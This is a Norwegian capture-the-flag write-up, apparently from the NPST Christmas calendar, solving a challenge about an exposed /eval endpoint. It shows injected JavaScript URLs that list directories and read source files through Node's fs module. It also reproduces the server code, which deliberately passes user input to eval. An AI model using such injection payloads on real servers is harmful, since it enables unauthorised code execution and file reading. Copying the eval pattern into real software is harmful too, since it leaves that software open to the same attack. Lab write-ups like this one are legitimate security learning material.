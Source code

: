 # Arbitrær kode

## Oppgaven

    Se dagsbriefen: https://kalender.npst.no/12

<p><strong>Evaluering av trusler</strong></p><p>NPST har oppdaget et endepunkt som er tilgjengelig på SPST sin offentlige nettside. Det vites på dette tidspunktet ikke om dette endepunktet er tilgjengelig ved en feiltagelse, eller om det er meningen at dette skal brukes av deres agenter. En av NPSTs teknikere har påpekt at det ser ut til å være mulig å kjøre arbitrær kode via endepunktet. Det er ønskelig at en alvebetjent undersøker dette endepunktet og rapporterer eventuelle flagg via intranettet.</p><p>Url: <code>https://api.spst.no/eval?eval=`&#x3C;pre>${getFlag()}&#x3C;/pre>`</code></p><p><strong>Jule NISSEN er blitt syk</strong></p><p>Jule NISSEN er utilgjengelig de neste dagene grunnet sykdom. Det mistenkes at sykdommen er influensa ettersom Jule NISSEN har sprøyteskrekk og ikke tok vaksinen sammen med resten av NPST. Ledelsen anbefaler alle alvebetjenter å praktisere god hygiene og benytte seg av antibak for å unngå videre smitte.</p><p><strong>Julevurdering</strong></p><p>Med bakgrunn i Jule NISSENS sykdom blir julevurderingen nedgradert. Det er nå <em>mulig</em> at det blir en GOD JUL.</p>

## Løsningen

<p>Besøker vi <p><code>https://api.spst.no/eval?eval=`&#x3C;pre>${getFlag()}&#x3C;/pre>`</code></p> får vi outputen</p>

`e5a8aadb885cd0db6c98140745daa3acf2d06edc17b08f1aff6daaca93017db9dc8d7ce7579214a92ca103129d0efcdd`

Her sier oppgaven at serveren kjører arbitrær kode, og `eval` er en funksjon i flere språk som kjører kode direkte. Dette kan vi utnytte til å sjekke litt rundt på serveren!

Vi er ganske sikre på at serveren kjører på noe `node`, så vi sjekker ut API-ene for filer til `node` på [https://nodejs.org/api/fs.html](https://nodejs.org/api/fs.html)

Med API-et `fs` kan vi kalle på filsystemet, og lese ut både mappeinnhold og filinnhold. Vi sjekker ut innholdet i mappen med denne kommandoen først:

```javascript
require("fs").readDirSync("./");
```

<p>
<code>https://api.spst.no/eval?eval=`&#x3C;pre>${require("fs").readdirSync("./")}&#x3C;/pre>`</code>
</p>

Outputen til dette endepunktet er:

```plaintext
eval.js
```

Mappen inneholder altså bare denne ene Javascript-filen. Vi sjekker ut innholdet i denne med kommandoen

```javascript
require("fs").readFileSync("./eval.js");
```

<p>
<code>https://api.spst.no/eval?eval=`&#x3C;pre>${require("fs").readFileSync("./eval.js")}&#x3C;/pre>`</code>
</p>

Vi får da ut innholdet til filen:

```javascript
const crypto = require("crypto");

function getSecretPasswordNumber(n) {
    return Math.PI.toFixed(48)
        .toString()
        .split(".")[1]
        .slice(n, n + 2);
}

function getPassword(date) {
    const passwords = {
        "06.12.19": "passord-" + getSecretPasswordNumber(3),
        "07.12.19": "passord-" + getSecretPasswordNumber(5),
        "08.12.19": "passord-" + getSecretPasswordNumber(8),
        "09.12.19": "passord-" + getSecretPasswordNumber(13),
        "10.12.19": "passord-" + getSecretPasswordNumber(21)
    };
    // 06.12.19: vi har ikke flere passord etter 10. Burde vurdere alternative
    // løsninger.
    return passwords[date] || `fant ikke passord for ${date}`;
}

function formatSalt(salt) {
    return salt.toLowerCase();
}

function encrypt(input) {
    // Bruk `decrypt` for å dekryptere

    const algorithm = "aes-192-cbc";
    // 06.12.19: husk å oppdatere denne hver dag!!!
    // 09.12.19: dette var sykt slitsomt. kan vi finne en bedre løsning?
    // 11.12.19: Krypteres permanent med dagens passord nå.
    // Denne funksjonen trengs vel ikke lenger?
    const password = getPassword("10.12.19");

    // 09.12.19: pepper er ikke et salt. Når vi på sikt krypterer utenfor serveren
    // burde vi oppdatere dette til noe mer vitenskapelig korrekt.
    // Natriumhydrogensulfat?
    // 11.12.19: Oppdatert med den kjemiske formelen ;)
    const key = crypto.scryptSync(password, formatSalt("pepper"), 24);

    const iv = Buffer.alloc(16, 0);
    const cipher = crypto.createCipheriv(algorithm, key, iv);

    let encrypted = cipher.update(input, "utf8", "hex");
    encrypted += cipher.final("hex");

    return encrypted;
}

function decrypt(password, salt, input) {
    const algorithm = "aes-192-cbc";

    const key = crypto.scryptSync(password, formatSalt(salt), 24);

    const iv = Buffer.alloc(16, 0);
    const decipher = crypto.createDecipheriv(algorithm, key, iv);

    let decrypted = decipher.update(input, "hex", "utf8");
    decrypted += decipher.final("utf8");

    return decrypted;
}

function getFlag() {
    // Det er sikkert smartere å kryptere flagget først, og bare skrive inn det
    // krypterte resultatet her, enn å kryptere på serveren hver gang.
    // 11.12.19: Kryptert flagget nå. Vi kan sikkert slette encrypt-funksjonen?
    return "e5a8aadb885cd0db6c98140745daa3acf2d06edc17b08f1aff6daaca93017db9dc8d7ce7579214a92ca103129d0efcdd";
}

exports.handler = function main(event, context, callback) {
    let result = "";

    console.log(event.queryStringParameters.eval);

    // 😶
    delete process.env.AWS_SECRET_ACCESS_KEY;
    delete process.env.AWS_ACCESS_KEY_ID;
    delete process.env.AWS_SESSION_TOKEN;

    try {
        result = `${eval(event.queryStringParameters.eval)}`;
    } catch (e) {
        console.log(e);
        // 06.12.19: La til en god og informativ feilmelding.
        result = "Dette burde ikke skje...";
    }

    callback(null, {
        statusCode: 200,
        headers: {
            "Content-Type": "text/html; charset=utf-8"
        },
        body: result
    });
};
```

Etter å ha lest og forstått denne filen sitter vi igjen med følgende informasjon

-   Outputen vi får ved å kalle på `getFlag` er den krypterte utgaven av dagens flagg
-   `getPassword` henter ut dagens passord fra funksjonen `getSecretPasswordNumber`
-   Det ser ut som nummerene i inputen til `getSecretPasswordNumber` er basert på Fibonacci-sekvensen `3 5 8 13 21 ...`
-   Det kan se ut som saltet til krypteringsfunksjonen er oppdatert til å være statisk, og til å være den kjemiske formelen for "Natriumhydrogensulfat", `NaHSO4`, som lowerCases i funksjonen `formatSalt`
-   `encrypt`-funksjonen brukes ikke lenger, men siden den fortsatt ligger i kildekoden kan vi se hvordan hashen blir generert
-   `decrypt` brukes for å dekryptere hashen
-   `getFlag` ser ut til å bli oppdatert manuelt hver dag med en hash generert utenfor scriptet

Vi må finne verdiene til argumentene vi trenger å sende inn til `decrypt`-funksjonen, altså `password`, `salt` og `input`

Passordet for 11. desember får vi hvis vi kombinerer `passord-` og output for `getSecretPasswordNumber(34)`, hvor `34` er neste tall i Fibonacci-sekvensen.

Dette gir oss passordet `passord-61`

Saltet blir enkelt og greit `NAHSO4` lowercaset: `nahso4`

Nå har vi alle input vi trenger, og kan kalle på `decrypt`-funksjonen med riktig input:

```javascript
decrypt("passord-61", "nahso4", "e5a8aadb885cd0db6c98140745daa3acf2d06edc17b08f1aff6daaca93017db9dc8d7ce7579214a92ca103129d0efcdd");
```

Vi kaller på serveren med denne konstruerte URL-en:

<p>
<code>https://api.spst.no/eval?eval=`&#x3C;pre>${decrypt("passord-61", "nahso4", "e5a8aadb885cd0db6c98140745daa3acf2d06edc17b08f1aff6daaca93017db9dc8d7ce7579214a92ca103129d0efcdd")}&#x3C;/pre>`</code>
</p>

Som gir outputen:

`PST{24e592de8b20fe09938916d79b08854e}`

Da har vi funnet dagens flagg!

```javascript
Flagg: PST{24e592de8b20fe09938916d79b08854e}
```
